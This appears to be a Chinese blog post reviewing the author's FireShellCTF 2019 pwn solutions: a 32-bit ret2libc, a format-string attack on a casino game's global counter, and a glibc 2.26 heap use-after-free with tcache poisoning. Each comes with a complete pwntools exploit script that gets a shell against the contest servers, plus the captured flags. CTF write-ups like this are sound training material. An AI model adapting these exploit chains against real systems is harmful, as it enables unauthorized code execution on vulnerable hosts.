 ```yaml
---
layout: post
title: "FireShellCTF2019反思"
date:   2019-1-28 18:00:00
categories: 比赛反思
tags: WriteUp FireShellCTF2019
---
```


* content
{:toc}

实在是不应该，赛后看了下Pwn最后一题的EXP反省了下，要是能专注去分析还是能搓出来的，结果到后面也只做出来了常规的三题，不是一个很好的阶段结束，写完这篇总结就去肝19WF的参展品了，比赛估计也要停一段时间打不了。






### leakless
```bash
➜  leakless checksec leakless
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/leakless/leakless'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
很基础的32位ret2libc
构造ROP来puts出puts_addr，题目没给libc，但[libc-search](https://libc.blukat.me/)搜得到libc,通过puts_sym来计算出libc_base，然后再计算出system和`/bin/sh`的地址,最后构造ROP链执行`system('/bin/sh')`getshell

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='i386',log_level='debug')
# n = process('./leakless')
n = remote('35.243.188.20',2002)
elf = ELF('./leakless')
libc = ELF('./libc.so')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
pop_ret = 0x080483ad
feedme = 0x080485cb

payload = 'a'*0x48+'aaaa'+p32(puts_plt)+p32(pop_ret)+p32(puts_got)+p32(feedme)
# n.recv()
n.sendline(payload)

libc_base = u32(n.recv(4))-libc.sym['puts']
print "libc_base:",hex(libc_base)

payload = 'a'*0x4c + p32(libc_base + libc.sym['system'])+'aaaa'+p32(libc_base+libc.search('/bin/sh').next())
n.sendline(payload)

n.interactive()
```
#### FLAG
`F#{y3ah!!_y0u_d1d_1t!_C0ngr4tz}`

### casino
```bash
➜  casino checksec casino
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/casino/casino'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
开始输入name的时候有一个`0x10`byte的格式化字符串，然后接着是100次伪随机数的判定，一开始没细看直接搓了100次判定成功的payload，发现拿不到flag，后来仔细看了下要求是`成功的次数大于100次`，正常来说是不可能的，但它判定成功后`累加的是一个全局变量bet`而不是`count++`或`count+=1`，也就是说，我们如果把bet改成大于1的值就可以让最终判断成功次数时大于100,而前面的16byte格式化字符串就足够用来修改任意地址的1byte，虽然因为`8byte补齐`和`\x00截断`的问题坑了好久，但最后还是搓出来一个还行的payload

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
# n = process('./casino')
n = remote('35.243.188.20',2001)
elf = ELF('./casino')
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

bet = 0x03
fmt_offset = 10
seed = libc.time(0)/0xa
print "seed:",hex(seed)
seed += bet
libc.srand(seed)
idx = 1
n.recvuntil('?')
payload = 'aaa%11$n'+p32(0x602020).ljust(8,'\x00')
n.sendline(payload)

for i in range(0,99):
    # n.recvuntil('number: ')
    num = libc.rand()
    sleep(0.08)
    n.sendline(str(num))
    s = "<%03d/100>"%idx
    log.success(s)
    idx += 1

n.interactive()
```
#### FLAG
`F#{buggy_c4s1n0_1s_n0t_f41r!}`

### babyheap
```bash
➜  babyheap checksec babyheap
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
本来想说坑，可想想是自己没有先check一下libc版本的锅，只能说自己还不够成熟了（无奈）
```bash
➜  babyheap strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.26-0ubuntu2.1) stable release version 2.26, by Roland McGrath et al.
Compiled by GNU CC version 6.4.0 20171010.
	GNU Libidn by Simon Josefsson
```
libc版本是2.26，环境切到2.26下开始分析，很快就能就发现可能存在`UAF&double free`，还有一个choice为1337功能大致是malloc(0x60)然后写0x40byte的函数，我们可以想到用UAF劫持程序在一个可写的地方(!! bss段开始的地方有stdin和stdout不能覆盖，要加个偏移)malloc一个块然后通过`1337`函数来伪造bk指针为atoi_got来泄漏出libc，再通过`tcache_poisoning`把atoi_got改成system_addr后回到有用atoi的地方输入`/bin/sh`就能得到shell了。
#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
# n = process('./babyheap')
n = remote("51.68.189.144", 31005)
elf = ELF('./babyheap')
libc = ELF('./libc.so.6') #2.26


def choice(idx):
    n.recvuntil('> ')
    n.sendline(str(idx))

def new():
    choice(1)

def edit(content):
    choice(2)
    n.recvuntil('Content? ')
    n.sendline(content)

def show():
    choice(3)

def free():
    choice(4)

def readn(content):
    choice(1337)
    n.recvuntil('Fill ')
    n.send(content)


bss = elf.bss()+0x20
log.success(hex(bss))
atoi_got = elf.got['atoi']
log.success(hex(atoi_got))

new()
free()
edit(p64(bss))
new()
# gdb.attach(n)
payload = p64(0)*5 + p64(atoi_got)
readn(payload)
show()
n.recvuntil('Content: ')
libc_base = u64(n.recv(6)+'\x00\x00')-libc.sym['atoi']
print "libc_base:",hex(libc_base)
system_addr = libc_base + libc.sym['system']
edit(p64(system_addr)) #atoi_got -> system_addr
choice('/bin/sh\x00')

n.interactive()
```
#### FLAG
`F#{W3lc0m3_t0_h34p_Expl01t4t10n!}`
